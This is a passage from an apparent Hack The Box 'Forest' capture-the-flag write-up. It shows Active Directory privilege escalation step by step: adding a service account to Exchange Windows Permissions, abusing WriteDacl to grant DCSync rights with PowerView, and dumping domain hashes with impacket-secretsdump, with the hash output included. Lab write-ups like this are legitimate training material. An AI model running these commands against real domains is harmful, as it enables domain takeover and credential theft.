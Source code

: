![forest2](/images/forest2.png)
![forest3](/images/forest3.png)

## Privilege Escalation

### Add to Exchange Windows Permissions

Looking at our Bloodhound enumeration, `svc-alfresco` is a member of the `Service Accounts` group, which essentially makes him part of the `Account Operators` group.  We see that `Account Operators` has `GenericAll` permissions for the `Exchange Windows Permissions` group, which means we can add `svc-alfresco` to that group. Once our user is a member of that group, we can exploit the `WriteDacl` permission to get Administrator privileges.

Step one, let's add `svc-alfresco` to the `Service Accounts Group`.  We'll need to import `PowerView.ps1` into our session for these commands to work.

```PowerShell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco
```

After running the command, we see it worked. However, the machine resets after about a minute, so we may have to chain all our commands together.

### Exploit WriteDacl

The next command we need is one to give `svc-alfresco` the `DCSync` rights, so we can dump secrets from the domain controller. If we right click on the `WriteDacl` line in BloodHound and select "Help", there's some nice instructions on how to do this.

```PowerShell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
```

Since we're going to have to chain this command with the one from the previous step, let's clean it up a bit. Combined script is as follows:

```PowerShell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword); Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

### Secrets Dump

Immediately after running that previous chained command, run `impacket-secretsdump` to grab all the hashes from the machine.

```sh
┌──(pl4stic㉿kali)-[~/htb/forest]
└─$ impacket-secretsdump HTB.local/svc-alfresco:s3rvice@10.129.195.40
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...snip...]
[*] Cleaning up...
```
